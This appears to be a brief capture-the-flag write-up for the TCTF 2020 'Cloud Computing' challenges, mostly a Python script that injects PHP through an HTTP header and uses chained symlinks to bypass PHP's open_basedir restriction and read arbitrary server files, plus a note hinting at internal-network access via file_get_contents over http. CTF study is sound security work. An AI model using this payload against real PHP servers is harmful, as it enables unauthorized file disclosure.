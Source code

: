# TCTF2020

## Cloud Computing

``symlink``绕过``open_basedir``

payload

```python
def exploit(f):
    print f
    payload="""
error_reporting(E_ALL);
mkdir('{4}{0}/b/c/d/e/f/g/',0777,TRUE);symlink('{4}{0}/b/c/d/e/f/g','{4}{1}');
ini_set('open_basedir','{4}:{4}{2}/');
symlink('{4}{1}/../../../../../../','{4}{2}');
unlink('{4}{1}');
echo base64_encode(file_get_contents('{4}{2}{3}'));
""".format(randomstr(),randomstr(),randomstr(),f,"/var/www/html/sandbox/f700deb7a6e26f106e3103e6257bb68a75a1a5f3/")
    poc= payload.replace("\n",'')
    #print poc
    headers = {
        "eki":poc
    }
    req=requests.get(url1,headers=headers)
    print req.text
    if "failed to open stream" not in req.text:
        try:
            retf = open(f.replace("/",'')+"1","wb")
            retf.write(base64.b64decode(req.text))
            retf.close()
        except:
            print "error"
            pass
```

## Cloud Computing V2

这里把``/flag`` ban了，没想到要内网渗透....

``file_get_contents``支持``http``协议